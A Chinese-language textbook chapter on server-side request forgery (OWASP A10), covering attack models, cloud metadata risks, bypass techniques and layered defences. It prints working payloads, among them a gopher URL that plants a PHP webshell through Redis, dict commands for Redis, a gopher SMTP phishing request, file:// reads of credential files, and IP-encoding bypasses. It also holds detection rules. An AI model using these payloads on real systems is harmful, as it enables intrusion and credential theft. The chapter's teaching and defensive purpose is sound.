




## 14.11 A10：服务端请求伪造（Server-Side Request Forgery, SSRF）

服务端请求伪造（SSRF）在2021版OWASP Top 10中首次作为独立风险类别出现，编号A10。这并非因为SSRF是新威胁——它的历史可以追溯到Web应用开始从服务端发起HTTP请求的时代——而是因为云原生架构的普及使得SSRF的影响面急剧扩大。当攻击者能够诱导服务器向任意地址发起请求时，传统内网边界防御形同虚设，云元数据服务、内部API网关、数据库管理接口等原本不可达的资产全部暴露在攻击者面前。

2019年的Capital One数据泄露事件是SSRF登上OWASP Top 10的直接催化剂：攻击者通过一个SSRF漏洞访问了AWS元数据服务，获取了IAM临时凭据，最终泄露了超过1亿用户的个人信息，Capital One被罚款8000万美元。这个案例深刻说明，SSRF不再是一个"理论上的风险"，而是能够造成实质性灾难的高危漏洞。

### 14.11.1 SSRF的本质与攻击模型

#### 14.11.1.1 核心定义

SSRF是一种攻击者能够使服务器端应用程序向非预期目标发起或构造请求的漏洞。其本质是**信任边界混淆**：Web应用信任来自服务端的请求（认为是"自己人"），但攻击者通过控制请求的目标地址，将这种信任转化为攻击能力。

与客户端请求伪造（如CSRF）的关键区别在于：

| 维度 | CSRF | SSRF |
|------|------|------|
| 请求发起方 | 用户的浏览器 | 目标服务器 |
| 攻击目标 | 让用户的浏览器执行非预期操作 | 让服务器向非预期目标发起请求 |
| 网络位置 | 外部 → 应用 | 应用 → 内部/外部 |
| 防御重点 | 验证用户意图（Token） | 验证请求目标（URL/地址过滤） |
| 典型影响 | 以用户身份执行操作 | 访问服务器可达的任何内部资源 |

#### 14.11.1.2 SSRF的分类体系

SSRF并非单一漏洞，而是一个包含多种变体的漏洞家族。理解其分类对于准确评估风险和选择防御策略至关重要。

**按响应处理方式分类：**



- **常规SSRF（Full Response SSRF）**：服务器将目标的响应内容完整返回给攻击者。这是最"友好"的变体，攻击者可以直接读取任意URL的内容。典型场景包括URL预览功能、API代理、网页归档等。攻击者提交 `http://169.254.169.254/latest/meta-data/` 就能直接看到元数据内容。

- **盲SSRF（Blind SSRF）**：服务器发起了请求但不将响应返回给攻击者。攻击者无法直接看到目标返回了什么，但仍然可以利用这一能力。典型场景包括Webhook回调（服务器向攻击者控制的URL发送通知）、图片加载验证（只返回"加载成功/失败"）、邮件发送（服务器向指定地址发邮件）。盲SSRF的利用更复杂，需要通过时间延迟、DNS日志或错误信息间接推断。

- **半盲SSRF（Semi-Blind SSRF）**：服务器返回部分信息，如HTTP状态码、响应头、错误消息或响应大小，但不返回完整的响应体。攻击者可以利用这些侧信道信息进行有限的信息收集。

**按攻击者控制程度分类：**

| 类型 | 控制程度 | 示例 |
|------|---------|------|
| 完全URL注入 | 控制整个URL | `{"url": "http://attacker.com"}` |
| 路径注入 | 只控制URL的路径部分 | `{"file": "../../../etc/passwd"}` |
| 部分参数注入 | 只控制URL中的某个参数 | `{"callback": "attacker.com"}` |
| 协议注入 | 能改变协议类型 | `file:///`, `gopher://`, `dict://` |

#### 14.11.1.3 SSRF与相关漏洞的边界

SSRF常常与其他漏洞类型产生交集，理解其边界有助于准确分类和报告：

- **SSRF vs XXE（XML外部实体注入）**：XXE可以通过 `<!ENTITY xxe SYSTEM "http://internal/">` 实现SSRF效果，但XXE的核心是XML解析器的安全问题，SSRF的核心是URL验证不充分。当XXE用于读取内部资源时，应同时报告两个漏洞。
- **SSRF vs CRLF注入**：CRLF注入可以控制HTTP请求头，但SSRF控制的是请求的目标地址。两者可能组合使用：CRLF注入实现请求走私，SSRF确定走私的目标。
- **SSRF vs 开放重定向**：开放重定向是SSRF绕过的重要手段（通过重定向将服务器引导到内部地址），但两者是独立的漏洞。
- **SSRF vs RCE（远程代码执行）**：通过gopher等协议，SSRF可以向内部服务发送任意数据，达到接近RCE的效果（如向Redis写入Webshell），但SSRF本身不执行代码。

### 14.11.2 攻击面全景

#### 14.11.2.1 SSRF的常见入口点

任何"用户输入URL → 服务器发起请求"的功能都是潜在的SSRF入口。以下是按出现频率排列的常见入口：

| 入口点 | 典型功能 | SSRF类型 | 风险等级 |
|--------|---------|---------|---------|
| URL预览/嵌入 | 粘贴URL自动提取标题和缩略图 | 常规SSRF | 高 |
| Webhook配置 | 用户配置回调URL接收事件通知 | 盲SSRF | 高 |
| PDF/HTML生成 | 服务端将HTML渲染为PDF，支持外部资源加载 | 常规SSRF | 高 |
| 图片加载/处理 | 从URL加载图片进行裁剪、水印等处理 | 半盲SSRF | 中 |
| 文件导入 | CSV/XLSX中包含URL公式（`=WEBSERVICE()`） | 常规SSRF | 中 |
| OAuth回调 | 第三方登录的redirect_uri | 盲SSRF | 中 |
| XML解析 | XML Schema导入、DTD加载 | 常规SSRF | 高 |
| RSS/Atom订阅 | 服务端抓取RSS源更新 | 常规SSRF | 中 |
| API代理/网关 | 作为中间层转发客户端请求 | 常规SSRF | 高 |
| 邮件发送 | 向用户提供的邮箱发送邮件（可用于验证SSRF） | 盲SSRF | 低 |
| DNS查询服务 | 域名解析、WHOIS查询 | 半盲SSRF | 中 |
| 链接展开 | 短链接还原、链接预览 | 常规SSRF | 中 |

#### 14.11.2.2 协议层面的攻击向量

SSRF的强大之处在于它不仅限于HTTP协议。根据目标应用使用的技术栈，攻击者可能利用多种协议：

**HTTP/HTTPS协议**

这是最基本的攻击向量，用于访问内部Web服务、API网关和云元数据端点。

```text
# 访问内部Web服务
http://127.0.0.1:8080/admin
http://192.168.1.100:9090/management

# 访问云元数据服务
http://169.254.169.254/latest/meta-data/        # AWS
http://100.100.100.200/latest/meta-data/        # 阿里云
http://metadata.google.internal/                # GCP

# 访问容器编排平台
http://127.0.0.1:2375/containers/json            # Docker API
http://127.0.0.1:10255/pods                      # Kubelet API
```

**file协议**

允许读取服务器本地文件系统中的内容。并非所有HTTP客户端库都支持file协议，但在PHP（cURL）、Java（URL类）等环境中经常可用。

```text
# 读取系统文件
file:///etc/passwd
file:///etc/shadow
file:///etc/hosts
file:///etc/resolv.conf

# 读取进程信息
file:///proc/self/environ        # 当前进程环境变量（可能含密钥）
file:///proc/self/cmdline        # 启动命令
file:///proc/self/cgroup         # 容器信息
file:///proc/version             # 内核版本

# 读取应用配置
file:///app/config/database.yml
file:///app/.env
file:///root/.ssh/id_rsa
file:///root/.aws/credentials
```

**gopher协议**

gopher是SSRF利用中最危险的协议之一，因为它允许向任意TCP端口发送自定义数据。攻击者可以通过gopher协议与内部服务（Redis、Memcached、MySQL、SMTP等）直接交互。

```text
# 向Redis写入Webshell（PHP环境）
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0a%0a<%3Fphp system($_GET['cmd'])%3B %3F>%0a%0a%0d%0a$4%0d%0asave%0d%0a

# 向Memcached注入数据（影响PHP Session）
gopher://127.0.0.1:11211/_set%20session_key%200%200%2015%0d%0asession_content%0d%0a

# 向SMTP服务器发送邮件
gopher://127.0.0.1:25/_HELO%20attacker%0d%0aMAIL%20FROM:<attacker@evil.com>%0d%0aRCPT%20TO:<victim@target.com>%0d%0aDATA%0d%0aSubject:%20Phishing%0d%0a%0d%0aClick%20this%20link%0d%0a.%0d%0aQUIT
```

gopher协议利用的关键限制：URL中的特殊字符需要进行URL编码，且不同语言/库的编码要求不同。gopher://在较新版本的libcurl（7.86.0+）中已被默认禁用。

**dict协议**

dict协议用于与字典服务交互，但也可以用来向内部服务发送单行命令。适用范围比gopher窄，但实现更简单。

```text
# 通过dict发送Redis命令
dict://127.0.0.1:6379/info
dict://127.0.0.1:6379/config:set:dir:/var/www/html
dict://127.0.0.1:6379/config:set:dbfilename:shell.php
```

**其他协议**

| 协议 | 用途 | 支持环境 |
|------|------|---------|
| `ftp://` | 文件传输，可用于端口探测（通过响应时间判断端口开闭） | 广泛支持 |
| `sftp://` | SSH文件传输，可用于探测SSH服务 | 部分支持 |
| `tftp://` | 简单文件传输，无认证 | 少数环境 |
| `ldap://` | 目录服务查询，可读取LDAP数据 | Java、.NET |
| `jar://` | Java归档文件读取，可用于SSRF+文件读取 | Java |
| `netdoc://` | Java特有的协议，类似file:// | Java |
| `expect://` | PHP expect扩展，可执行命令（极少环境） | PHP |

#### 14.11.2.3 技术栈差异

不同编程语言和框架的HTTP客户端对协议的支持程度差异很大，这直接影响SSRF的利用方式：

| 语言/框架 | HTTP | file:// | gopher:// | dict:// | 备注 |
|-----------|------|---------|-----------|---------|------|
| PHP (cURL) | ✓ | ✓ | ✓ | ✓ | 最容易利用的组合 |
| PHP (file_get_contents) | ✓ | ✓ | ✗ | ✗ | 支持file但不支持gopher |
| Python (requests) | ✓ | ✗ | ✗ | ✗ | 只支持HTTP/HTTPS |
| Python (urllib) | ✓ | ✓ | ✗ | ✗ | 支持file |
| Java (URL) | ✓ | ✓ | ✗ | ✗ | 支持file和jar |
| Go (net/http) | ✓ | ✗ | ✗ | ✗ | 只支持HTTP/HTTPS |
| Node.js (http) | ✓ | ✗ | ✗ | ✗ | 只支持HTTP/HTTPS |
| Ruby (Net::HTTP) | ✓ | ✗ | ✗ | ✗ | 只支持HTTP/HTTPS |
| libcurl | ✓ | ✓ | ✓(≤7.85) | ✓ | gopher在7.86+默认禁用 |

理解这些差异对于漏洞利用和防御都至关重要：如果你的应用使用Python的requests库，那么gopher协议利用基本不可行，防御重点应放在HTTP目标地址验证上；如果使用PHP的cURL，则需要防范所有协议类型。

### 14.11.3 SSRF的根本原因分析

SSRF的根本原因不是"没有过滤URL"，而是更深层次的架构和信任问题：

#### 14.11.3.1 信任模型缺陷

Web应用通常隐含一个假设：服务端发起的请求是可信的。这个假设在传统架构中基本成立（服务器和内网服务属于同一信任域），但在云原生环境中被打破——服务器能够触达的范围包括云元数据服务、容器编排API、服务网格等高价值目标，这些都不应该被应用层代码无差别地访问。

#### 14.11.3.2 验证与使用的时序差

URL验证和实际请求之间存在时间窗口。即使应用在发起请求前验证了URL的目标IP不在黑名单中，DNS解析的结果可能在验证通过后发生变化（DNS重绑定攻击）。这种TOCTOU（Time-of-Check-Time-of-Use）问题是SSRF防御中的经典难题。



#### 14.11.3.3 URL解析的复杂性

URL规范（RFC 3986）的灵活性导致不同解析器对同一URL的解析结果可能不同。攻击者利用这种差异构造一个"验证时看起来安全、使用时指向内部"的URL：

```text
# 这些URL在不同解析器中的结果不同：

# 利用@符号（userinfo vs hostname）
http://evil.com@127.0.0.1/
# 简单的字符串匹配可能只检查evil.com
# 但实际目标是127.0.0.1

# 利用#符号（fragment）
http://evil.com#@127.0.0.1/
# 某些解析器将@127.0.0.1视为fragment
# 另一些将其视为hostname

# 利用\和/的差异
http://evil.com\@127.0.0.1/
# Windows路径分隔符在URL中的解析差异

# 利用DNS标签
http://127.0.0.1.evil.com/
# DNS解析时通配符可能将其解析为127.0.0.1

# 利用IPv6
http://[::ffff:7f00:1]/          # 127.0.0.1的IPv6映射
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://[::1]/                     # IPv6环回地址
```

#### 14.11.3.4 语言层面的陷阱

不同语言的URL解析库存在已知的安全陷阱：

- **Python的urllib**：`http://evil.com#@127.0.0.1` 中，urllib会将 `127.0.0.1` 解析为hostname，而非fragment。
- **Java的URL**：`http://0x7f000001` 会被正确解析为 `127.0.0.1`（十六进制IP），但简单的字符串黑名单不会匹配。
- **PHP的parse_url**：对某些畸形URL的处理与其他语言不同，可能绕过验证。
- **JavaScript的URL API**：`new URL('http://evil.com@127.0.0.1')` 的hostname是 `127.0.0.1`，但 `evil.com` 是userinfo。

### 14.11.4 云环境中的SSRF：特殊风险

SSRF在云环境中的风险远高于传统环境，原因是云元数据服务的设计哲学——通过网络位置而非身份认证来保护敏感信息。

#### 14.11.4.1 云元数据服务架构

所有主流云厂商都提供了实例元数据服务（Instance Metadata Service, IMDS），允许虚拟机通过链路本地地址获取自身信息：

| 云厂商 | 元数据端点 | 特征 | 认证方式 |
|--------|-----------|------|---------|
| AWS | `http://169.254.169.254/latest/meta-data/` | 纯文本树形结构 | IMDSv1: 无; IMDSv2: PUT Token |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | 需要`Metadata-Flavor: Google`请求头 | 请求头验证 |
| Azure | `http://169.254.169.254/metadata/instance` | 需要`Metadata: true`请求头 | 请求头验证 |
| 阿里云 | `http://100.100.100.200/latest/meta-data/` | 结构类似AWS | 无 |
| 腾讯云 | `http://metadata.tencentyun.com/latest/meta-data/` | 类似AWS | 无 |

元数据服务之所以危险，在于它返回的信息中可能包含**临时安全凭据**。当虚拟机绑定了IAM角色（AWS）、服务账号（GCP）或托管标识（Azure）时，元数据服务会返回Access Key、Secret Key和Session Token——这些凭据等价于该角色的所有权限。

#### 14.11.4.2 IMDSv1 vs IMDSv2

AWS在Capital One事件后推出的IMDSv2代表了元数据服务安全性的重大改进：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 访问方式 | 直接HTTP GET | 先PUT获取Token，再用Token请求 |
| 防SSRF | 不防护 | PUT请求无法通过大多数SSRF向量触发 |
| Token有效期 | N/A | 可配置，默认6小时 |
| 跳数限制 | N/A | 默认1跳（hop limit），阻止通过容器/代理转发 |
| 默认状态 | 新实例默认同时支持v1和v2 | 需显式配置 `HttpTokens=required` 强制仅v2 |

IMDSv2的防护原理：大多数SSRF向量（``标签、CSS `background-url`、XML实体等）只能发起GET请求，而IMDSv2要求先用PUT请求获取Token。但需要注意，如果SSRF点支持自定义HTTP方法（如通过curl命令注入或gopher协议），IMDSv2仍可被绕过。因此IMDSv2应被视为纵深防御的一层，而非唯一防线。

#### 14.11.4.3 容器与编排平台风险

容器化环境引入了额外的SSRF攻击面：

- **Docker API**：如果Docker守护进程监听TCP端口（`-H tcp://127.0.0.1:2375`），攻击者可以通过SSRF创建容器、挂载宿主机文件系统，实现完整的宿主机控制。
- **Kubernetes API**：Kubelet API（默认10255端口）在未启用认证时，可以通过SSRF获取所有Pod的信息、执行命令、读取Secret。
- **服务网格**：Istio、Linkerd等服务网格的控制面API如果未正确保护，可以通过SSRF访问。
- **容器元数据**：容器内的元数据地址可能与宿主机不同，需要同时测试 `169.254.169.254` 和容器编排平台的内部地址。

### 14.11.5 SSRF绕过技术分类

理解绕过技术是防御的基础。以下是按防御机制分类的绕过方法：

#### 14.11.5.1 IP地址黑名单绕过

当防御基于IP地址的字符串匹配时，攻击者可以使用多种编码方式表示同一个IP：

| 绕过技术 | 示例（目标：127.0.0.1） | 原理 |
|---------|------------------------|------|
| 十六进制 | `http://0x7f000001/` | IP的32位十六进制表示 |
| 十进制 | `http://2130706433/` | IP的32位整数表示 |
| 八进制 | `http://0177.0.0.1/` | 每段用八进制表示 |
| 混合编码 | `http://0x7f.0.0.1/` | 不同段用不同进制 |
| IPv6映射 | `http://[::ffff:127.0.0.1]/` | IPv4-mapped IPv6 |
| IPv6环回 | `http://[::1]/` | IPv6的环回地址 |
| 缩写IPv6 | `http://[0:0:0:0:0:0:0:1]/` | 完整IPv6格式 |
| 无符号前导零 | `http://127.000.000.001/` | 前导零不影响解析 |
| 带端口混淆 | `http://127.0.0.1:80/` | 标准端口可能不被检查 |

#### 14.11.5.2 域名黑名单绕过

| 绕过技术 | 示例 | 原理 |
|---------|------|------|
| DNS重绑定 | `http://rebind.attacker.com/` | DNS两次解析返回不同IP |
| 开放重定向 | `http://allowed.com/redirect?url=http://127.0.0.1` | 利用白名单域名的重定向 |
| 子域名伪造 | `http://127.0.0.1.attacker.com/` | 某些DNS配置会解析为127.0.0.1 |
| 短链服务 | `http://bit.ly/xxxxx` | 短链展开后指向内部地址 |
| CDN/云存储 | `http://attacker.s3.amazonaws.com/redirect` | 利用云存储的重定向特性 |
| DNS CNAME | `attacker.com CNAME 127.0.0.1.xip.io` | CNAME记录指向特殊域名 |

#### 14.11.5.3 协议限制绕过

当应用限制了请求协议时，攻击者可能通过以下方式绕过：

- **HTTP参数污染**：在URL中注入额外的参数改变请求行为
- **URL解析差异**：利用不同解析器对URL结构的理解差异
- **编码绕过**：对URL进行双重URL编码、Unicode编码等
- **CRLF注入**：在URL中注入 `\r\n` 修改HTTP请求结构

#### 14.11.5.4 DNS重绑定攻击详解

DNS重绑定是SSRF绕过中最强大的技术之一，它利用了URL验证和实际HTTP请求之间的时间差：



DNS重绑定的核心要素：
1. **极低的TTL**（通常为0或1秒）：确保验证时的DNS结果在实际请求时已过期
2. **交替返回不同IP**：第一次返回安全IP，后续返回目标IP
3. **时机控制**：需要精确控制验证和请求之间的时间差

在线工具 [rbndr](https://lock.cmpxchg8b.com/rebinder.html) 可以快速配置DNS重绑定测试。

### 14.11.6 SSRF的影响范围与危害等级

SSRF的影响取决于服务器的网络位置和可达范围。以下是按危害程度排列的影响：



**基础影响**：端口扫描和服务发现。攻击者可以通过观察服务器对不同端口的响应时间（开放端口通常响应快，关闭端口会超时或返回连接拒绝），绘制内网服务地图。

**中等影响**：读取服务器本地文件（通过file协议）、访问需要内网IP才能访问的Web应用（如管理后台、监控面板）、绕过基于IP的认证（某些内部服务信任来自内网的请求）。

**严重影响**：获取云元数据服务的临时凭据、直接访问内部API和数据库（如 `http://127.0.0.1:6379/` 的Redis）、通过gopher协议向内部服务注入命令。

**灾难性影响**：利用获取的凭据进行横向移动、获取云环境的完全控制权（创建新IAM用户、修改安全组、删除资源）、大规模数据泄露或勒索。

### 14.11.7 防御体系：分层纵深防御

SSRF防御不存在银弹。单一的防御措施（如仅做URL黑名单过滤）总会被绕过。有效的防御需要在多个层次同时部署，形成纵深防御体系。

#### 14.11.7.1 第一层：输入验证（必要但不充分）

输入验证是第一道防线，但不应作为唯一的防线。

**域名白名单优于IP黑名单**：白名单明确允许哪些域名可以被访问，黑名单试图枚举所有不允许的目标——后者注定不完整。

```python
from urllib.parse import urlparse
import ipaddress
import socket

# 白名单验证逻辑
ALLOWED_DOMAINS = {'cdn.example.com', 'api.partner.com'}

def validate_url(url: str) -> tuple[bool, str]:
    """验证URL是否在允许的范围内"""
    try:
        parsed = urlparse(url)
    except Exception:
        return False, "URL格式无效"
    
    # 1. 协议白名单
    if parsed.scheme not in ('http', 'https'):
        return False, f"不允许的协议: {parsed.scheme}"
    
    # 2. 域名白名单
    hostname = (parsed.hostname or '').lower()
    if not any(hostname == d or hostname.endswith(f'.{d}') 
               for d in ALLOWED_DOMAINS):
        return False, f"域名不在白名单: {hostname}"
    
    # 3. DNS解析后IP验证（防范DNS重绑定的一环）
    try:
        resolved_ip = socket.gethostbyname(hostname)
        ip = ipaddress.ip_address(resolved_ip)
        if ip.is_private or ip.is_loopback or ip.is_link_local:
            return False, f"域名解析到保留IP: {resolved_ip}"
    except socket.gaierror:
        return False, "DNS解析失败"
    
    return True, "验证通过"
```

**必须阻止的IP范围**（RFC 5735/RFC 6890）：

| 地址范围 | 用途 | 必须阻止的原因 |
|---------|------|---------------|
| `10.0.0.0/8` | 私有A类 | 内网地址 |
| `172.16.0.0/12` | 私有B类 | 内网地址 |
| `192.168.0.0/16` | 私有C类 | 内网地址 |
| `127.0.0.0/8` | 环回地址 | 本机服务 |
| `169.254.0.0/16` | 链路本地 | 云元数据服务 |
| `100.64.0.0/10` | CGNAT | 运营商内部 |
| `224.0.0.0/4` | 多播 | 非常规目标 |
| `0.0.0.0/8` | 当前网络 | 特殊用途 |
| `::1/128` | IPv6环回 | 本机服务 |
| `fc00::/7` | IPv6私有 | 内网地址 |
| `fe80::/10` | IPv6链路本地 | 本地链路 |
| `::ffff:0:0/96` | IPv4-mapped IPv6 | IPv4地址的IPv6表示 |

#### 14.11.7.2 第二层：协议限制

严格限制应用能够使用的URL协议，只允许 `http://` 和 `https://`。在HTTP客户端配置层面禁用 `file://`、`gopher://`、`dict://` 等危险协议，而非依赖输入过滤。

```python
import requests
from requests.adapters import HTTPAdapter

class SafeHTTPAdapter(HTTPAdapter):
    """安全的HTTP适配器，只允许http/https"""
    
    def send(self, request, **kwargs):
        if not request.url.startswith(('http://', 'https://')):
            raise ValueError(f"不允许的协议: {request.url}")
        return super().send(request, **kwargs)

session = requests.Session()
session.mount('http://', SafeHTTPAdapter())
session.mount('https://', SafeHTTPAdapter())
```

#### 14.11.7.3 第三层：网络隔离

网络层隔离是SSRF防御中最有效的措施，即使应用层验证全部被绕过，网络隔离仍然能阻止攻击。

```bash
# 使用iptables阻止应用用户访问元数据服务
iptables -A OUTPUT -m owner --uid-owner appuser -d 169.254.169.254 -j DROP
iptables -A OUTPUT -m owner --uid-owner appuser -d 100.100.100.200 -j DROP
iptables -A OUTPUT -m owner --uid-owner appuser -d 10.0.0.0/8 -j DROP
iptables -A OUTPUT -m owner --uid-owner appuser -d 172.16.0.0/12 -j DROP
iptables -A OUTPUT -m owner --uid-owner appuser -d 192.168.0.0/16 -j DROP
```

在云环境中，还可以通过安全组和VPC网络ACL实现更细粒度的控制。容器环境中应使用独立的网络命名空间（避免 `--net=host`）并限制容器的出站流量。

#### 14.11.7.4 第四层：禁用不必要的URL获取功能

最安全的做法是根本不需要从服务端发起HTTP请求。如果业务确实需要，考虑使用独立的、经过安全加固的URL抓取代理服务（URL Fetch Proxy），将所有URL获取请求通过这个集中化的代理进行，代理负责URL验证、协议限制、响应过滤等安全措施。

#### 14.11.7.5 第五层：响应处理安全

即使无法阻止SSRF，也可以限制其影响：

- **不将完整的响应内容返回给客户端**：只提取必要的元数据（标题、状态码等）
- **限制响应大小**：防止攻击者通过SSRF下载大量数据
- **过滤响应内容**：移除可能包含敏感信息的HTTP头（`Set-Cookie`、`Authorization`等）
- **记录所有出站请求**：用于事后审计和异常检测

#### 14.11.7.6 第六层：监控与检测

```yaml
# 检测规则示例：识别潜在的SSRF攻击
detection_rules:
  - name: "元数据服务访问尝试"
    pattern: "169.254.169.254 OR 100.100.100.200 OR metadata.google.internal"
    severity: "critical"
    action: "alert + block"
    
  - name: "内部IP段访问"
    pattern: "destination.ip IN (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16)"
    severity: "high"
    action: "alert"
    
  - name: "异常协议使用"
    pattern: "url.scheme IN (file, gopher, dict, ftp)"
    severity: "high"
    action: "alert + block"
    
  - name: "高频URL抓取"
    condition: "url_fetch_count > 100 per minute by source_ip"
    severity: "medium"
    action: "alert + rate_limit"
```

### 14.11.8 SSRF防御效果对比

| 防御措施 | 防护效果 | 部署难度 | 绕过难度 | 适用场景 |
|---------|---------|---------|---------|---------|
| 域名白名单 | 限制可访问范围 | 低 | 中（DNS重绑定/重定向） | 基础防护 |
| IP黑名单 | 阻止访问已知内部地址 | 低 | 低（编码绕过） | 补充措施 |
| 协议限制 | 阻止file/gopher利用 | 低 | 低 | 所有场景 |
| 网络隔离 | 从根本上限制可达范围 | 中 | 高 | 云/容器环境 |
| IMDSv2 | 阻止GET型SSRF获取凭据 | 低 | 中（支持PUT的SSRF） | AWS环境 |
| URL代理服务 | 集中化安全控制 | 高 | 高 | 大型应用 |
| 响应过滤 | 限制数据泄露 | 中 | 中 | 所有场景 |
| 监控告警 | 事后检测 | 中 | N/A | 所有场景（必需） |

### 14.11.9 SSRF与其他OWASP风险的关系

SSRF不是孤立存在的漏洞，它与其他OWASP Top 10风险有着密切的关联：

- **A01 失效的访问控制**：SSRF绕过了基于网络位置的访问控制（"只有内网可以访问"），本质上是访问控制的失效。
- **A03 注入**：XXE（XML外部实体注入）是SSRF的特殊形式，通过XML解析器发起非预期的HTTP请求。
- **A05 安全配置错误**：云元数据服务未强制IMDSv2、Docker API暴露在TCP端口、Kubelet未启用认证等配置错误，放大了SSRF的影响。
- **A06 脆弱和过时的组件**：使用存在已知URL解析漏洞的旧版HTTP客户端库，可能使SSRF防护措施失效。
- **A08 软件和数据完整性失效**：通过SSRF访问内部的CI/CD系统、代码仓库，可能破坏软件供应链完整性。

### 14.11.10 关键要点总结

1. **SSRF的本质是信任边界混淆**：应用信任服务端请求，攻击者通过控制目标地址利用这种信任。
2. **云环境使SSRF的影响倍增**：元数据服务提供了高价值的、仅靠网络位置保护的目标。
3. **不存在完美的SSRF过滤**：DNS重绑定、URL解析差异、编码绕过等技术使得纯应用层过滤不可靠。
4. **纵深防御是唯一可行策略**：输入验证 + 协议限制 + 网络隔离 + IMDSv2 + 最小权限 + 监控告警，缺一不可。
5. **盲SSRF同样危险**：即使看不到响应内容，SSRF也可以用于端口扫描、触发Webhook、发起攻击。
6. **防御应从架构层面开始**：最好的SSRF防御是不需要从服务端发起HTTP请求；如果必须，使用独立的、安全加固的URL代理服务。

***
